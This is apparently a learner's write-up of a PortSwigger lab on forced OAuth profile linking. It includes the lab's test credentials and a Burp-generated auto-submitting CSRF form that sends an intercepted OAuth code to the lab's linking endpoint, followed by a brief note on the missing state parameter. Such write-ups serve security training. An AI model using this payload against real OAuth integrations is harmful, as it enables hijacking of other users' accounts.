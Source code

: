 # Practitioner Lab 140: Forced OAuth profile linking

---

This lab gives you the option to attach a social media profile to your account so that you can log in via OAuth instead of using the normal username and password. Due to the insecure implementation of the OAuth flow by the client application, an attacker can manipulate this functionality to obtain access to other users' accounts.

To solve the lab, use a [CSRF attack](https://portswigger.net/web-security/csrf) to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete `carlos`.

The admin user will open anything you send from the exploit server and they always have an active session on the blog website.

You can log in to your own accounts using the following credentials:

- Blog website account: `wiener:peter`
- Social media profile: `peter.wiener:hotdog`

![Untitled](Practitioner%20Lab%20140%20Forced%20OAuth%20profile%20linking%20581e1e7f9f194c33913f738a7f7d2e37/Untitled.png)

I intercepted this code from clicking on the link account. but before it was used I used burp to create a poc and put it on the exploit server. 

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6c0043031716ac81f9c5ec00020069.web-security-academy.net/oauth-linking">
      <input type="hidden" name="code" value="Gpj4VupahNy8gsjhbaKJLLEis4a1mGnBclGQLPQMn7P" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

When I logged back in using the account it solved the lab.

This was then delivered to the user and it solved the lab. 

![Untitled](Practitioner%20Lab%20140%20Forced%20OAuth%20profile%20linking%20581e1e7f9f194c33913f738a7f7d2e37/Untitled%201.png)

This attack worked because It had no state 

```
GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=code&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
Host: oauth-authorization-server.com
```

On top is how it wouldve looked it if had a state.
